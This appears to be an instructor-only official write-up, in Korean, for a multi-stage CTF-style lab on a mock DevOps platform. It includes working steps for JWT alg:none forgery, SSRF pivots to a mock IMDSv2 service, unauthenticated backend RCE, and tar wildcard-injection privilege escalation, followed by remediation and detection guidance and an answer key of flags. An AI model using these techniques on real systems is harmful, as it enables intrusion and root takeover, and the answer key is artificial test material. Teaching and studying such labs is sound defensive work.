

# ES Lab3 — ES DevOps Platform Write-up (Official)

> Instructor 전용 정답 문서. 학생 배포판에는 자격증명·flag·익스플로잇 상세를 포함하지 않는다.

## 0. 문서 범위

이 문서는 `lab3`(Hard, 4 스테이지, 3-컨테이너)의 공식 풀이다. 대상은 `es-devops-portal`(외부 노출), `es-automation-backend`(내부 전용), `es-imds-mock-v2`(내부 전용) 세 컨테이너이며, 실제 프로덕션 시스템이 아니다. 본문의 모든 명령·응답은 구축·검증 과정에서 실제로 실행해 확인한 결과다.

## 1. 시나리오

> ES사 내부 DevOps 콘솔이 발견됐다. 일반 고객 계정으로 가입은 되지만, 내부 직원 전용 기능에 접근할 수 있는지, 그리고 그 안쪽에서 서버까지 장악할 수 있는지 점검하라.

## 2. 실습 환경

| 항목 | 값 |
|---|---|
| 대상 | `$TARGET:443` |
| 외부 노출 서비스 | `es-devops-portal` (Flask) |
| 내부 전용 서비스 | `es-imds-mock-v2`(IMDSv2 mock), `es-automation-backend`(RCE 대상) — `internal-net-3`에서만 접근 가능 |
| 네트워크 | `lab3-net`(외부 노출) + `internal-net-3`(내부 전용), lab1/lab2와 완전 분리 |

## 3. 공격 흐름



**한 줄 공격 체인**: JWT `alg:none` 위조 → staff 권한 획득 → SSRF job으로 IMDSv2 토큰 발급·자격증명 획득(1차 피벗) → 노출된 내부 주소로 2차 SSRF 피벗 → 백엔드 RCE → `sudo` tar wildcard injection으로 root → flag.

## 4. Stage 1 — JWT `alg:none` 위조

### 4.1 취약점 확인

`console/app.py`(현재 `es-devops-portal`)의 `verify_token()`은 토큰 헤더에서 `alg`를 읽어 `"none"`이면 서명 검증 없이 페이로드를 그대로 신뢰한다.

```python
header = json.loads(b64url_decode(parts[0]))
alg = header.get("alg", "HS256")
if alg.lower() == "none":
    return json.loads(b64url_decode(parts[1]))
```

### 4.2 토큰 위조

```python
import base64, json
def b64url(d): return base64.urlsafe_b64encode(d).decode().rstrip('=')
header = {"alg": "none", "typ": "JWT"}
payload = {"sub": "attacker", "role": "staff"}
token = b64url(json.dumps(header).encode()) + "." + b64url(json.dumps(payload).encode()) + "."
```

결과 토큰: `eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJzdWIiOiAiYXR0YWNrZXIiLCAicm9sZSI6ICJzdGFmZiJ9.` (서명 세그먼트 없음, 마지막에 `.`만 존재)

### 4.3 검증

```bash
curl -H "Authorization: Bearer $TOKEN" http://$TARGET:443/internal/dashboard
```

```json
{"flag":"esfg{VG05MElIbGxkQ0F0SUhSb1pTQmpiMjV6YjJ4bElHaGhjeUJ0YjNKbElIUm9ZVzRnWVNCc2IyZHBiaUJ3WVdkbExnPT0=}",
 "memo":"ES DevOps 내부 콘솔입니다. 리포트 소스 조회는 비동기 job으로 처리됩니다...",
 "welcome":"안녕하세요, attacker"}
```

**성공 판정**: 회원가입/로그인을 한 번도 거치지 않은 임의의 `sub`("attacker") 값으로도 `staff` 전용 리소스에 접근했다는 점에서 단순 인증이 아니라 인가 우회(권한 위조)로 판정했다.

## 5. Stage 2 — SSRF job으로 IMDSv2 피벗

### 5.1 job 상태머신 이해

Portal은 즉시 fetch하지 않고 job을 큐에 넣은 뒤, 생성 후 2초 이내 폴링하면 `queued`, 그 이후 폴링에서 실제 요청을 수행하고 `done`으로 응답한다.

### 5.2 IMDSv2 토큰 발급 (job1)

```python
create_job(
    "http://imds-mock-v2/latest/api/token",
    method="PUT",
    headers={"X-aws-ec2-metadata-token-ttl-seconds": "21600"},
)
```

즉시 폴링 결과: `{"status": "queued"}`
3초 후 폴링 결과:

```json
{"result":{"body":"4a85433b68e445f699a2cbb9664b5a21","status_code":200},"status":"done"}
```

### 5.3 자격증명 조회 (job2)

```python
create_job(
    "http://imds-mock-v2/latest/meta-data/iam/security-credentials/es-automation-role",
    method="GET",
    headers={"X-aws-ec2-metadata-token": imds_token},
)
```

```json
{"result":{"body":"{\"AccessKeyId\":\"ASIAFAKEESLAB3AUTOM\",\"Code\":\"Success\",\"Note\":\"esfg{VG05MElIUm9aU0JrWlhOMGFXNWhkR2x2YmlCNVpYUWdMU0IwYUdVZ1ltRmphMlZ1WkNCcGN5QmpZV3hzYVc1bkxnPT0=}\",\"SecretAccessKey\":\"FaKeSecretKeyESLab3Automation000000000000\",\"Token\":\"FAKE.SESSION.TOKEN.ES-LAB3\",\"Type\":\"AWS-HMAC\",\"internal-services\":{\"automation-backend\":\"http://automation-backend:8000/run\"}}\n","status_code":200},"status":"done"}
```

### 5.4 성공 판정

토큰 없이 자격증명 엔드포인트를 호출하면 서버는 401을 반환하도록 구현되어 있다(`imds-mock-v2/app.py`의 `check_token()`). 토큰을 첨부한 이번 요청에서만 200과 함께 실제 크리덴셜 JSON을 받았으므로, 단순 접근이 아니라 IMDSv2 토큰 흐름 자체를 정확히 재현했음을 근거로 판정했다. 응답에 포함된 `internal-services.automation-backend` 필드로 다음 피벗 대상 주소를 확보했다.

### 5.5 취약점 원인

- **SSRF(CWE-918)**: Portal의 job 릴레이가 목적지 URL/메서드/헤더를 전부 사용자 입력대로 그대로 요청한다.
- **내부 서비스 위상 노출**: IMDS 유사 응답에 백엔드 내부 주소를 그대로 노출해, 정찰 없이도 다음 피벗 대상을 알 수 있게 했다(실제 클라우드 환경에서 메타데이터 서비스가 과도한 내부 정보를 반환하는 것과 유사한 위험 패턴).

## 6. Stage 3 — 2차 SSRF 피벗으로 백엔드 RCE

### 6.1 페이로드

백엔드의 `/run`은 JSON body의 `code` 필드를 그대로 `python3` 프로세스의 표준입력으로 흘려보내 실행한다(`backend/app.py`). 별도 인증이 없다(포탈만 호출한다는 암묵적 신뢰, CWE-306 성격).

```python
create_job(
    "http://automation-backend:8000/run",
    method="POST",
    headers={"Content-Type": "application/json"},
    body=json.dumps({"code": exploit_code}),
)
```

### 6.2 검증 및 핵심 결과

```json
{"returncode":0,"stderr":"","stdout":"STAGE3_NOTE: esfg{UjJWMGRHbHVaeUIzWVhKdFpYSXVJRU5vWldOcklIZG9ZWFFnZEdocGN5QnphR1ZzYkNCallXNGdjM1ZrYnk0PQ==}\nID: uid=1000(svc-report) gid=1000(svc-report) groups=1000(svc-report)\n..."}
```

**성공 판정**: 응답 stdout에서 `id` 실행 결과(`uid=1000(svc-report)`)를 직접 확인했다 — 단순 HTTP 200이 아니라 실제 프로세스 실행 증거로 판정했다. 이 RCE는 인터넷에 전혀 노출되지 않은 `es-automation-backend`에서 발생했으며, Stage2에서 얻은 주소 힌트 없이는 도달 경로 자체를 알 수 없었다는 점에서 순수한 "필터 우회"가 아니라 "은닉된 내부 시스템으로의 다단계 피벗"에 해당한다.

## 7. Stage 4 — `sudo` tar wildcard injection

### 7.1 관찰

`sudo -l` 상당의 정보(사전에 구성된 sudoers)로 `svc-report`가 `/opt/es/maintenance/backup.sh`를 root 권한으로 NOPASSWD 실행 가능함을 확인. 스크립트는:

```bash
cd /var/es/reports || exit 1
tar czf /root/backups/reports-$(date +%s).tar.gz *
```

`*`가 확장되는 디렉터리(`/var/es/reports`)를 `svc-report`가 쓸 수 있으므로, `--`로 시작하는 파일명을 심으면 GNU tar가 이를 옵션으로 해석한다(GTFOBins 계열 wildcard injection).

### 7.2 익스플로잇 (Stage3 RCE 세션 내에서 연속 수행)

```python
shell_sh = "/var/es/reports/shell.sh"
open(shell_sh, "w").write(
    "#!/bin/sh\ncat /root/flag.txt > /var/es/reports/flag_out.txt\n"
    "chmod 644 /var/es/reports/flag_out.txt\n"
)
os.chmod(shell_sh, 0o755)
open("/var/es/reports/--checkpoint=1", "w").close()
open("/var/es/reports/--checkpoint-action=exec=sh shell.sh", "w").close()
subprocess.run(["sudo", "/opt/es/maintenance/backup.sh"])
```

### 7.3 핵심 결과

```
sudo backup rc: 0
ROOT_FLAG: esfg{VjJWc2JDQmtiMjVsSVNCRlV5QkVaWFpQY0hNZ1VHeGhkR1p2Y20wZ1RHRmlNeUJqYkdWaGNpND0=}
```

### 7.4 성공 판정

`svc-report` 권한으로는 읽을 수 없는 `/root/flag.txt`(권한 600, root 소유)의 내용이 `sudo backup.sh` 실행 직후에만 `/var/es/reports/flag_out.txt`(svc-report도 읽기 가능한 위치)에 나타났다. root 권한이 아니면 불가능한 파일 읽기가 실제로 일어났다는 점을 직접 증거로 root 권한 획득을 판정했다(단순히 `sudo` 명령이 성공(rc=0)했다는 것만으로 판정하지 않음).

## 8. 취약점 요약

| # | 분류 | 이름 | 위치 | 영향 |
|---|---|---|---|---|
| 1 | 자체 구현 결함(CWE-347 계열) | JWT `alg:none` 위조 | `console/app.py` `verify_token()` | 인증 없이 임의 권한(`role:staff`) 획득 |
| 2 | 자체 구현 결함(CWE-918) | SSRF (job 릴레이) | `/internal/jobs` | 내부 전용 네트워크(IMDS mock) 도달 |
| 3 | 위험한 설계 | 내부 위상 정보 과다 노출 | `imds-mock-v2` 자격증명 응답의 `internal-services` | 정찰 없이 2차 피벗 대상 확보 |
| 4 | 자체 구현 결함(CWE-918, CWE-306) | 2차 SSRF + 백엔드 무인증 코드 실행 | `automation-backend:8000/run` | 완전 비공개 시스템에서 RCE |
| 5 | 위험한 구성(GTFOBins류) | `sudo` tar wildcard injection | `/opt/es/maintenance/backup.sh` | RCE 계정 → root 권한 상승 |

## 9. 탐지 및 대응

- **근본 원인 1(JWT alg:none)**: 서버가 알고리즘을 클라이언트 입력(헤더)에서 결정하지 않고, 발급 시 고정한 알고리즘만 허용해야 한다(`jwt.decode(token, SECRET, algorithms=["HS256"])`로 고정, `"none"` 분기 제거).
- **근본 원인 2/4(SSRF)**: 목적지를 허용 목록으로 제한하고, 서버 간 호출(백엔드)에도 최소한의 인증(mTLS, 내부 토큰 등)을 적용해야 한다. "내부망이니 신뢰한다"는 가정 자체가 위험하다.
- **근본 원인 3(내부 위상 노출)**: 메타데이터/자격증명 응답에 다른 내부 서비스 주소를 포함하지 않는다.
- **근본 원인 5(wildcard injection)**: 신뢰할 수 없는 디렉터리에서 `tar`/`chown`/`chmod`를 와일드카드로 호출하지 않는다. 최소한 `tar -- *` 또는 `find ... -exec`로 옵션 파싱 경계를 명시해야 한다.
- **탐지 가능한 흔적**: Portal access log의 `/internal/jobs` 대상 URL에 내부 대역/링크로컬 패턴, 백엔드 `/run` 요청이 포탈이 아닌 근원지에서 오는지 여부(현재는 구분 불가 — 이 자체가 결함), `/var/es/reports`에 `--`로 시작하는 비정상 파일명 생성 이벤트.

## 10. 핵심 학습 포인트

1. JWT의 `alg` 필드는 공격자가 통제하는 입력이다 — 서버가 이를 신뢰하고 분기하면 인증 전체가 무너진다.
2. SSRF는 "한 번 우회하면 끝"이 아니라, 도달한 내부 서비스가 또 다른 SSRF의 발판이 될 수 있다(다단계 피벗).
3. IMDSv2류 토큰 방식은 IMDSv1보다 안전해 보이지만, SSRF가 임의 메서드/헤더를 지정할 수 있는 한(PUT+커스텀 헤더) 여전히 우회된다 — 토큰 요구 자체가 만능 방어가 아니다.
4. 클라우드/내부 메타데이터 응답에 다른 시스템의 주소를 그대로 노출하면, 공격자의 정찰 비용을 극적으로 줄여준다.
5. "내부망이라 인증이 필요 없다"는 설계는 SSRF 한 번으로 완전히 무력화된다 — 제로트러스트 관점에서 서비스 간 호출도 인증이 필요하다.
6. `tar`의 와일드카드 인젝션은 오래된 기법이지만, 자동화 스크립트가 root 권한으로 실행되는 한 여전히 유효한 권한상승 경로다.

## 부록 A — 빌드 시 DNS 이슈와 우회

랩 구축 시점에 VM의 기본 DNS 리졸버(클라우드 내부 리졸버)가 일시적으로 응답 불능이었고, 외부 DNS(8.8.8.8 등)도 53번 포트 아웃바운드가 막혀 있었다. 반면 443 포트 아웃바운드는 정상이었으므로, Google DoH(`https://8.8.8.8/resolve?name=<host>&type=A`)로 필요한 호스트(Docker Hub, Debian 미러, PyPI)의 IP를 직접 조회한 뒤 `docker build --add-host=<host>:<ip>`로 주입해 빌드를 완료했다. 이는 랩 자체의 결함이 아니라 빌드 환경의 일시적 네트워크 이슈였다.

## 부록 B — 정답 (Instructor 전용)

| 항목 | 값 |
|---|---|
| Stage1 flag | `esfg{VG05MElIbGxkQ0F0SUhSb1pTQmpiMjV6YjJ4bElHaGhjeUJ0YjNKbElIUm9ZVzRnWVNCc2IyZHBiaUJ3WVdkbExnPT0=}` |
| Stage2 flag | `esfg{VG05MElIUm9aU0JrWlhOMGFXNWhkR2x2YmlCNVpYUWdMU0IwYUdVZ1ltRmphMlZ1WkNCcGN5QmpZV3hzYVc1bkxnPT0=}` |
| Stage3 flag | `esfg{UjJWMGRHbHVaeUIzWVhKdFpYSXVJRU5vWldOcklIZG9ZWFFnZEdocGN5QnphR1ZzYkNCallXNGdjM1ZrYnk0PQ==}` |
| Stage4 최종 flag | `esfg{VjJWc2JDQmtiMjVsSVNCRlV5QkVaWFpQY0hNZ1VHeGhkR1p2Y20wZ1RHRmlNeUJqYkdWaGNpND0=}` |
| Stage2에서 확보하는 내부 주소 힌트 | `http://automation-backend:8000/run` |
